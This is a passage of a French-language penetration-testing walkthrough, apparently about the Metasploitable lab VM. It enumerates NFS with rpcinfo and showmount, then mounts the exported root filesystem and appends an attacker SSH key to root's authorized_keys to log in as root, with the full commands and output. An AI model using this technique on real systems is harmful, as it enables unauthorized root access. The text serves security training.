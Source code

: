 C’est aussi simple que cela. Le prochain service que nous allons regarder est le **Network File System** \(NFS est un protocole qui permet aux ordinateurs d’accéder à des fichiers via un réseau\). NFS peut être identifié en testant le port 2049 directement ou en demandant la liste des services au portmapper \(processus qui analyse les paquets arrivant sur une interface et qui les route selon leur adresse et leur port de destination\). L’exemple ci-après utilise `rpcinfo` pour identifier NFS et `showmount -e` pour déterminer que le partage "/" \(le root du système de fichiers\) est exporté. Nous aurons besoin des paquets `rpcbind` et `nfs-common` pour suivre cela.

```text

root@ubuntu:~# rpcinfo -p 192.168.1.131 
   program vers proto   port  service 
    100000    2   tcp    111  portmapper 
    100000    2   udp    111  portmapper 
    100024    1   udp  53318  status 
    100024    1   tcp  43729  status 
    100003    2   udp   2049  nfs 
    100003    3   udp   2049  nfs 
    100003    4   udp   2049  nfs 
    100021    1   udp  46696  nlockmgr 
    100021    3   udp  46696  nlockmgr 
    100021    4   udp  46696  nlockmgr 
    100003    2   tcp   2049  nfs 
    100003    3   tcp   2049  nfs 
    100003    4   tcp   2049  nfs 
    100021    1   tcp  55852  nlockmgr 
    100021    3   tcp  55852  nlockmgr 
    100021    4   tcp  55852  nlockmgr 
    100005    1   udp  34887  mountd 
    100005    1   tcp  39292  mountd 
    100005    2   udp  34887  mountd 
    100005    2   tcp  39292  mountd 
    100005    3   udp  34887  mountd 
    100005    3   tcp  39292  mountd 
 
root@ubuntu:~# showmount -e 192.168.1.131 
Export list for 192.168.1.131: 
/ *
```

Obtenir un accès à un système avec un système de fichiers en écriture est une chose triviale. Pour faire cela \(et parce que ssh tourne\), nous allons générer une clé SSH sur notre machine attaquante, monter l’export NFS et ajouter notre clé au compte de l’utilisateur root \(fichier authorized\_keys\) :

```text

root@ubuntu:~# ssh-keygen  
Generating public/private rsa key pair. 
Enter file in which to save the key (/root/.ssh/id_rsa):  
Enter passphrase (empty for no passphrase):  
Enter same passphrase again:  
Your identification has been saved in /root/.ssh/id_rsa. 
Your public key has been saved in /root/.ssh/id_rsa.pub. 
 
root@ubuntu:~# mkdir /tmp/r00t 
root@ubuntu:~# mount -t nfs 192.168.1.131:/ /tmp/r00t/ 
root@ubuntu:~# cat ~/.ssh/id_rsa.pub >> 
/tmp/r00t/root/.ssh/authorized_keys  
root@ubuntu:~# umount /tmp/r00t  
 
root@ubuntu:~# ssh root@192.168.1.131 
Last login: Fri Jun  1 00:29:33 2012 from 192.168.1.128 
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 
UTC 2008 i686 
```